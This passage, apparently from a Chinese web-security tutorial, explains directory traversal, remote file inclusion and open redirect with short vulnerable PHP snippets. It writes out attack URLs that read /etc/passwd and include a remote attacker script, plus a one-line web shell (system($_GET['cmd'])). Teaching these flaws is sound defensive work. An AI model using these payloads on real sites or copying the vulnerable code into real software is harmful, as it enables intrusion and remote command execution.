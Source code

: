 ```text
http://silverd.cn/read.php?file=0401.log
```

文件 `read.php` 内容：

```php
echo file_get_contents(RESOURCE_PATH . '/' . $_GET['file']);
```

攻击者改为：

```text
http://silverd.cn/read.php?file=../../etc/passwd
```

就可以读到不该读的东西了。

#### 远程文件包含漏洞


例如有页面：

```text
http://silverd.cn/index.php?controller=news
```

文件 `index.php` 内容：

```php
$controller = $_GET['controller'];
include_once APP_PATH . '/controllers/' . $controller;
```

攻击者改为：

```text
http://silverd.cn/index.php?controller=http://hackr.jp/cmd.php?cmd=ls
```

事先 `cmd.php` 已准备好攻击脚本：

```php
system($_GET['cmd']);
```

当 `http://silverd.cn/index.php` 运行时，就中招了。

#### 开放重定向漏洞

例如有页面：

```text
http://silverd.cn/login.php?redirect=/home
```

攻击者改为：

```text
http://silverd.cn/login.php?redirect=http://hackr.jp
```

用户点击后自动被跳转到攻击者网站，可信度高的 Web 网站开放重定向功能判断跳转目标，否则容易被攻击者利用当成钓鱼攻击的跳板。
